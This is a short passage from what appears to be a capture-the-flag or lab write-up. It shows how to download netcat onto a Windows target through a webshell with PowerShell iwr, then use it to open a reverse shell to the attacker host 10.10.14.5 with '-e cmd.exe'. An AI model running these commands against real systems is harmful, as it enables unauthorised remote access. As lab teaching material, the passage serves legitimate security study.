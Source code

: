 nc doesn’t work on my webshell for some reason, so I decided to use `iwr` again on the webshell instead of the command line.

`/c powershell iwr [http://10.10.14.5:80/nc64.exe](http://10.10.14.5/nc64.exe) -outfile c:\windows\temp\nc.exe`

![image.png](image%2033.png)

Now run `/c c:\windows\temp\nc.exe 10.10.14.5 6667 -e cmd.exe` on webshell to get reverse shell.

![image.png](image%2034.png)
